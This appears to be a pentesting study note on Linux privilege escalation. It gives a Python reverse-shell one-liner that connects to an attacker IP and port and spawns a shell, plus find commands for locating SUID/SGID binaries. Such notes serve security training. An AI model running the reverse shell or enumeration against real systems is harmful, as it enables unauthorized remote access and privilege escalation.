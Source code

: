 ```yaml
---
title: 6. Privilege escalation - Linux
date: 2024-08-02 14:00:00
categories:
  - Pentesting
  - Linux
tags:
  - Pentesting
  - Linux
  - Privesc
toc: true
---
```


---
Step 6 in a penetration test: Privilege escalation.
Upgrade permissions, gain access to more resources, become `root`. 

---


<br>

## Reverse shell from privileged python script
```python
IP="10.10.14.10"
PORT=4444
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

<br>

## Files with SUID and SGID bit
> SUID (set user ID) and GUID (set group ID) bits are flags set on Linux ELF executables, allowing any user to run them as the owner (impersonate the owner).

**Test**
```bash
# suid
find / -perm -u=s -type f 2>/dev/null
# sgid
find / -perm -u=g -type f 2>/dev/null
# both
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2>/dev/null
```
Executables you should look for:
```bash
/usr/bin/passwd
/usr/bin/sudo
/bin/su
/usr/bin/chsh
/usr/bin/chfn
/bin/mount
/bin/umount
/usr/bin/locate
/usr/bin/at
```
```bash
/usr/bin/newgrp
/usr/bin/execute
/usr/bin/gpasswd
```
